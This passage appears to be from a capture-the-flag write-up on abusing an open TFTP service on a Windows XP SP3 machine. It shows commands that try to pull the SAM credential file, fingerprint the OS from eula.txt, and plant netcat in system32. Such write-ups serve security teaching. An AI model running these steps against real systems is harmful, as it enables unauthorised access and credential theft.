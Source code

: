 

    tftp> get \windows\system32\config\sam
    Error code 1: The process cannot access the file 'C:\windows\system32\config\sam' because it is being used by another process.



Well that's interesting. No error about permissions, but rather just
about the file being in use. I am likely running as a privileged user.

#### OS Determination

`\windows\system32\license.rtf` and/or `\windows\system32\eula.txt` will
help determine the Windows OS version based.



    tftp> get \windows\system32\license.rtf
    Error code 1: Could not find file 'C:\windows\system32\license.rtf'.
    tftp> get \windows\system32\eula.txt
    Received 41543 bytes in 28.7 seconds





    root@kali# head '\windows\system32\eula.txt'
    END-USER LICENSE AGREEMENT FOR MICROSOFT
    SOFTWARE

    MICROSOFT WINDOWS XP PROFESSIONAL EDITION
    SERVICE PACK 3

    IMPORTANT-READ CAREFULLY: This End-User
    License Agreement ('EULA') is a legal
    agreement between you (either an individual
    or a single entity) and Microsoft Corporation



So this is a Windows XP SP3 box. No wonder nothing is open, as it would
be vulnerable to a ton of different exploits.

#### Read/Write to System32

Being able to write to `system32` is quite useful. I did a simple test:



    tftp> put nc.exe \windows\system32\nc.exe
    Sent 38866 bytes in 29.3 seconds
    tftp> get \windows\system32\nc.exe
    Received 38866 bytes in 28.0 seconds





    root@kali# md5sum *nc.exe
    5dcf26e3fbce71902b0cd7c72c60545b  nc.exe
    5dcf26e3fbce71902b0cd7c72c60545b  \\windows\\system32\\nc.exe


